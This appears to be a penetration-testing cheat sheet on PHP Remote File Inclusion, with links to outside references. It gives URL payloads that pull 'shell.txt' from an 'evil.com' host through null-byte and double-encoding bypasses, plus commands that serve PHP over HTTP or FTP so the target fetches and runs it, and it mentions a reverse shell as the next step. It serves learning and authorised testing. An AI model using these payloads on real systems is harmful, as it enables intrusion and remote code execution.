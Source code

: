 For more information read the link below

{% embed url="https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/logs-poisoning" %}

{% embed url="https://hacktricks.boitatech.com.br/pentesting-web/file-inclusion#lfi2rce" %}

### Filter Bypass

```bash
# NULL BYTE
http://example.com/index.php?page=http://evil.com/shell.txt%00

# DOUBLE ENCODING
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```



### via HTTP[​](https://www.thehacker.recipes/web/inputs/file-inclusion/rfi-to-rce#via-http) <a href="#via-http" id="via-http"></a>

The tester can host an arbitrary PHP code and access it through the HTTP protocol.

```bash
# Create phpinfo.php
echo '<?php phpinfo(); ?>' > phpinfo.php

# Start a web server
python3 -m http.server 80

# Exploit the RFI to fetch the remote phpinfo.php file
curl '$URL/?parameter=http://tester.server/phpinfo.php'

# If Remote File Read works we can create a rev.php file with reverse shell inside
```



### via FTP[​](https://www.thehacker.recipes/web/inputs/file-inclusion/rfi-to-rce#via-ftp) <a href="#via-ftp" id="via-ftp"></a>

The tester can also host his arbitrary PHP code and access it through the FTP protocol. He can use the python library pyftpdlib to start a FTP server.

bash

```bash
# Start FTP server
sudo python3 -m pyftpdlib -p 21   
[I 2022-07-11 00:04:26] concurrency model: async
[I 2022-07-11 00:04:26] masquerade (NAT) address: None
[I 2022-07-11 00:04:26] passive ports: None
[I 2022-07-11 00:04:26] >>> starting FTP server on 0.0.0.0:21, pid=176948 <<<

# Exploit the RFI to fetch the remote phpinfo.php file
curl '$URL/?parameter=ftp://tester.server/phpinfo.php'
```
